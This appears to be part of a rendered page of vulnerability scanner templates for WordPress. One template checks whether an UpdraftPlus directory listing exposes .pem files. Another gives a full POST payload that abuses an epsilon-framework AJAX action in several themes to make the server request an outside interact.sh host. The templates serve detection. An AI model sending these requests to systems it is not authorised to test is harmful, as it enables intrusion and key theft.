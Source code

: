 - Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/updraftplus/includes/

### Matchers

**Type - word**

- words
  1. Index of /
  2. .pem
  3. updraftplus
- condition - and
- part - body

**Type - status**

- status
  1. 200

---

# WordPress Themes - Code Injection

## Description

- Fifteen WordPress themes are susceptible to code injection using a version of epsilon-framework, due to lack of capability and CSRF nonce checks in AJAX actions.
- severity - high
- tags - wordpress,rce,ssrf,edb,wpscan

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php?action=action_name HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

action=epsilon_framework_ajax_action&args%5Baction%5D%5B%5D=Requests&args%5Baction%5D%5B%5D=request_multiple&args%5Bargs%5D%5B0%5D%5Burl%5D=http://interact.sh

```

### Matchers

**Type - word**

- part - body
- words
  1. Interactsh Server
  2. protocol_version
